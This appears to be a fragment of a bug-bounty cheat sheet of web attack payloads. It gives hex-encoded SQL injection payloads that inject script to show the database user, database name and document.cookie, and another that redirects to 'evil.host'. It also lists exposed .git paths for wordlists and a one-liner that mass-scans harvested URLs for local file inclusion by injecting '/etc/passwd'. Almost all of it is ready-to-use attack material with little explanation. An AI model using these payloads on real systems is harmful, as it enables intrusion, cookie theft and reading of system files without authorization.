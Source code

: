     /?q=-x()
    /?q=1''asd''   <== concat string
    ```

- SQL injection vulnerability to XSS

    ```sql
    payload: 
    concat(0x3c7363726970743e70726f6d70742822,0x3078336e30,0x7c7c,user(),0x7c7c,database(),0x222c646f63756d656e742e636f6f6b6965293c2f7363726970743e)
    ```

    ![Image](../_resources/FK6zec.jpg)

- SQLi to open-redirect 

    ```js
    CONCAT(0x3C7363726970743E,0x77696E646F772E6C6F636174696F6E2E7265706C6163652822,"http://evil.host",0x2229,0x3C2F7363726970743E)
    ```

### GIT

- Just add these directories to your wordlist 

    ```bash
    /.git/index
    /.git/config
    /.git/logs/HEAD
    ```

### Local File Inclusion

- 
    ```bash
    gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
    ```
